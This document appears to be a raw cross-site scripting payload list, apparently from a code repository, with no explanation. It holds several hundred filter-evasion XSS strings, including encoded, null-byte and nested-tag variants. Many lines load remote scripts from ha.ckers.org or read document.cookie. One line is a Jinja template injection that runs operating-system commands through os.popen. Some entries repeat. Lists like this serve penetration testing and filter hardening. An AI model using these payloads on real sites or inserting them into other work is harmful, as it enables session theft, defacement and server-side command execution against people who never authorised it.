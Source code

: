 “><svg/onload=alert(document.domain)>”@x.y
"><img src=x onerror=alert(1)>
"><img/src=x onerror=alert(1)>
"><img/src="x"/onerror=alert(1)>
"><img/nsrc="x"onerror=alert(1)>
INJECTION%22%20style=%22animation-name:swoop-up%22%20onanimationstart=%22alert(document.domain)
<h1 onauxclick=confirm(1)>CLİCK
');alert(document.location);//
"style="position:fixed;top:0;left:0;border:999em solid green;" onmouseover="alert(document.cookie)"
<scr<script>ipt>alert(1)</script>
<img/test":"'asdf' /src=' ' /onerror=prompt>
;<sc%00ript>alert/**/(1)</script>
"<h1%2Fon%2FoNclick%3Dalert%60xss%60>%2520CLICK
<[%00]img onerror=alert(1) src=a>
<img/onerror=alert(1) src=a>
"OnMoUsEoVeR=prompt(/1/)//"
["');alert('XSS');//"]@xyz.xxx
<img/anyjunk/onerror=alert(1) src=a>
</</script>script> <</svg>svg/onload=alert`xss`>//
<iframe%20src="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk%2b"></iframe>
<img """><script>alert("alert(1)")</script>">
data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==s
<img onerror="alert(1)"src=a>
<img onerror='alert(1)'src=a>
[<script>alert`link text`</script>](a)
[click](javascript:alert`javascript_scheme`)
[onmouseover](http://"/onmouseover="alert`on_mouse_link`")
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+
<img onerror=`alert(1)`src=a>
<img onerror=a[%00]lert(1) src=a>
<i[%00]mg onerror=alert(1) src=a>
"><object src=1 onerror="javascript:alert(1);">
x[javascript:alert(1)]
‘);</script><script>alert(1)</script>
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
\x[\<script>alert(1);</script>\]
<img onerror=a&#0108;ert(1) src=a>
[data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=]("><svg/onload="alert(1)">)
<img onerror=a&#108ert(1) src=a>
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
<script/src=data:,alert()>
<marquee/onstart=alert()>
</script><!--><svg onload=[1].find%26%2340;alert%26rpar;>
<iframe srcdoc="<script>alert(1)</script>"></iframe>
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'"> 
{"html":"<script>alert(document.domain)</script>"}
<a><pre lang='f/" onerror=alert(1) onload=alert(1) '><code lang="wavedrom">xss</code></pre></a>
test<img src=x oncjavascript:lick=prompt(1)>test,result:test<img src="x" onclick="prompt(1)">
/*-></title></style></textarea></script></xmp>/<svg/onload='+/"/+/onmouseover=document.domain/+/[*/[]/+alert(document.domain)//'>
</noscript><script>alert(1)</script>
TestPayload&lt;/a&gt;&lt;a href="javascript:alert(1)"&gt;ClickHere&lt;/a&gt;
<a onmouseover="alert(1)">click</a>
&#34><script>alert(document.domain)</script>
<svg/onload=eval(atob(‘YWxlcnQoJ1hTUycp’))>
{{ <svg/onload=prompt(“XSS”)> }}
%22%3E%3Csvg%20onload%3Dalert%281%29%3E
1'><img src=X onerror="alert(1)">'
"/><svg/onload=prompt(document.domain)>
'-alert('def1ant')-'?=
{{ &lt;svg/onload=prompt(&quot;XSS&quot;)&gt; }}
"><svg/onload=alert(1)>
"><img src=x onerror=alert(1)>
%3Ca%20style=%22position:absolute;margin:50px;%20background-color:%20yellow;%20z-index:1000;top:50px;padding:100px;font-weight:bold;font-size:45px;color:red;%22%20href=%22https://evil.com%22%3EClick%20here%20for%20win%201000%E2%82%AC!%3C/a%3E
%0a"><a href="javascript:alert(1)">
"><a href="javascript:alert(1)">
<a href="javascript:alert(1)">
"><a href="javascript://alert(1)">
"><a href="javascript://%0aalert(1)">
%0ajavascript://%0aalert(1)
%3Cimg%20src=1%20onerror=alert(document.domain)%3E
javascript:alert(documen.cookie)
%3Cscript%3Ealert(1)%3C%2Fscript%3E
<img/src=`%00`%20onerror=this.onerror=confirm(1)>
%3Cscript%3Ealert(%27XSS%27)%3C/script%3E
javascript://%0aalert(1)
<iframe %00 src=”&Tab;javascript:prompt(1)&Tab;”%00>
<Button href="javascript://%0aalert(document.domain)">XSS</Button>
%20alert(document.location),%20%27
<svg><script%20?>confirm(1)
<script>alert(1)<%2fscript>
'-alert(1)-' 
</script><img src=X onerror=alert(1)>
%0aalert(1);
alert(1)
${alert(1)}
{{$on.constructor('alert(1)')()}}
&%27},x=x=%3E{throw/**/onerror=alert,xss},toString=x,window%2b%27%27,{x:%27
%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
\"-alert(1)}//
\'-alert(1)//
<script>({0:#0=eval,#0/#0}(alert('XSS')))</script>
<script>1?alert("XSS attack!"):1</script>
<script>Object.defineProperty(document.currentScript, 'innerHTML', {get:function(){alert('XSS')}})</script>
<script>({set/**/$($){_/**/setter=this}/**/}.$=$=alert)(document.domain)</script>
<script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))</script>
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQYV2P8z/D/PwAF/gNtLCwAAAAASUVORK5CYII=">
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
{{$on.constructor('alert(1)')()}}
{{ &lt;svg/onload=prompt(&quot;XSS&quot;)&gt; }}
<svg/onload=eval(atob(‘YWxlcnQoJ1hTUycp’))>
"onmouseover="alert(1)
javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.domain
<iframe src="x.com" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
&apos;-alert(1)-&apos;
\"-alert(1)}//
’);alert(1)//
%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
<script>({set/**/$($){_/**/setter=this}/**/}.$=$=alert)(document.domain)</script>
<script>Object.defineProperty(document.currentScript, 'innerHTML', {get:function(){alert('XSS')}})</script>
");alert('XSS');//
%27x%27onclick=%27alert(1)
&apos;-alert(1)-&apos;
//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
\'-alert(1)//
=jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//
<iframe src=x.com onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
<><img src=1 onerror=alert(1)>
{% extends 'base.html' %}{% block content %}{{config.items()[0].items().__class__.__mro__[1].__subclasses__()[91].__init__.__globals__['sys'].modules['__main__'].__dict__['os'].popen(request.args.os).read()}}{% endblock %}
$("<img src=x onerror=alert(1)//>").appendTo("#foo");
;</script><embed/test='asdf'/sr%00c='/'>
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQYV2P8z/D/PwAF/gNtLCwAAAAASUVORK5CYII=">
<script>1?alert("XSS attack!"):1</script>
<script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))</script>
%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
<svg><animatetransform onbegin=alert(1) attributeName=transform>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
<img src="javascript:throw new Error();">
<svg onload=prompt%26%230000000040document.domain)>
%3cscript%3ealert%281%29%3b%3c%2fscript%3e
<a href="data:text/html;charset=utf-7;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=">xss</a>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
"</sc"ript><sv"g/onloa"d=aler"t"(document.doma"in)>
%22/%3E%3C/div%3E%3Ca%20href%3D%22https://google.com%22%3EClicking%3C/a%3E%3Cinput%20type%3D%22hidden=alert
%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27 
<iframe src=x.com onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
data:text/html;base64,ewoidXJsIjogImh0dHBzOi8vdGVhcmZ1bC1lYXJ0aC5zdXJnZS5zaC90ZXN0LnlhbWwiLAp9
“><a href=”data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=”>click</a>
{{$eval.constructor('alert(1)')()}}
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
'';!--"<XSS>=&{()}
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
<script/src=data:,alert()>
<marquee/onstart=alert()>
<video/poster/onerror=alert()>
<isindex/autofocus/onfocus=alert()>
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
<a onmouseover="alert(document.cookie)">xxs link</a>
<a onmouseover=alert(document.cookie)>xxs link</a>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC= onmouseover="alert('xxs')">
<IMG onmouseover="alert('xxs')">
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="jav	ascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
<IMG SRC=" &#14;  javascript:alert('XSS');">
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >
<SCRIPT SRC=//ha.ckers.org/.j>
<IMG SRC="javascript:alert('XSS')"
<iframe src=http://ha.ckers.org/scriptlet.html <
\";alert('XSS');//
</script><script>alert('XSS');</script>
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<BODY BACKGROUND="javascript:alert('XSS')">
“><img src=x onerror=write(document.domain)>
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
<IMG SRC='vbscript:msgbox("XSS")'>
<IMG SRC="livescript:[code]">
<BODY ONLOAD=alert('XSS')>
<BGSOUND SRC="javascript:alert('XSS');">
<BR SIZE="&{alert('XSS')}">
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<XSS STYLE="xss:expression(alert('XSS'))">
<XSS STYLE="behavior: url(xss.htc);">
¼script¾alert(¢XSS¢)¼/script¾
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">
<DIV STYLE="width: expression(alert('XSS'));">
<!--[if gte IE 4]><SCRIPT>alert('XSS');</SCRIPT><![endif]-->
<BASE HREF="javascript:alert('XSS');//">
<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://ha.ckers.org/xss.js></SCRIPT>'"-->
<? echo('<SCR)';echo('IPT>alert("XSS")</SCRIPT>'); ?>
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<A HREF="http://66.102.7.147/">XSS</A>
0\"autofocus/onfocus=alert(1)--><video/poster/ error=prompt(2)>"-confirm(3)-"
veris-->group<svg/onload=alert(/XSS/)//
#"><img src=M onerror=alert('XSS');>
element[attribute='<img src=x onerror=alert('XSS');>
[<blockquote cite="]">[" onmouseover="alert('RVRSH3LL_XSS');" ]
%22;alert%28%27RVRSH3LL_XSS%29//
javascript:alert%281%29;
<w contenteditable id=x onfocus=alert()>
alert;pg("XSS")
<svg/onload=%26%23097lert%26lpar;1337)>
<script>for((i)in(self))eval(i)(1)</script>
<scr<script>ipt>alert(1)</scr</script>ipt><scr<script>ipt>alert(1)</scr</script>ipt>
<sCR<script>iPt>alert(1)</SCr</script>IPt>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">test</a>
